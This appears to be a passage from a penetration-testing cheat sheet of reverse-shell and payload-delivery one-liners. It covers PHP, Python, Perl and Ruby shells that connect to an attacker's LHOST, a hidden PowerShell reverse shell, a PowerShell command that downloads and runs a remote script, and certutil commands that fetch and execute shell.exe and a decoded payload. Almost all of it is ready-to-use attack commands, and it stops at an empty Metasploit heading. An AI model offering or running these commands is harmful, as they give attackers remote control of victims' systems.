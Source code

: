**PHP**

```php
php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Python**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Perl**

```perl
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Ruby**

```ruby
ruby -rsocket -e'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Windows Reverse Shells

**Powershell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("LHOST",LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae73b7da09e51921a64613c3b28b780/voile')
```

**Certutil**

```cmd
# Download and execute
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe && shell.exe

# Base64 encoded payload delivery
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

**Metasploit SMB Delivery**
